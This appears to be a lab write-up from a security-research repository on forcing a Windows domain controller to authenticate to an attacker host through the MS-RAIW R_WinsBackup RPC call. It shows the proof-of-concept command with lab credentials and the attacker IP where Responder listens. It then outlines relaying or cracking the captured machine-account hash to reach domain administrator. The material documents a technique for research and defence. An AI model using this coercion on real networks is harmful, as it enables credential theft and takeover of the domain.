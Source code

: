 # MS-RAIW - Remote call to R_WinsBackup (opnum 7)

## Summary

+ **Protocol**: [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9)

+ **Protocol UUID**: 45f52c28-7f9f-101a-b52b-08002b2efabe

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `"\pipe\WinsPipe"`

+ **Function name**: [`R_WinsBackup`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\WinsPipe"` and bind to the desired [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol (with uuid `45f52c28-7f9f-101a-b52b-08002b2efabe` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\WinsPipe"` This pipe is connected to the protocol [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) and allows to call RPC functions of this protocol. We will then call the remote [`R_WinsBackup`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_WinsBackup('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_WinsBackup(
   [in] handle_t ServerHdl,
   [in, string, ref] LPBYTE pBackupPath,
   [in] SHORT fIncremental
 );
```

## References

+ Documentation of protocol [MS-RAIW]: Remote Administrative Interface: WINS: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9

+ Documentation of function `R_WinsBackup`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/304d718f-5d5c-4ceb-b7e7-68deac3dc703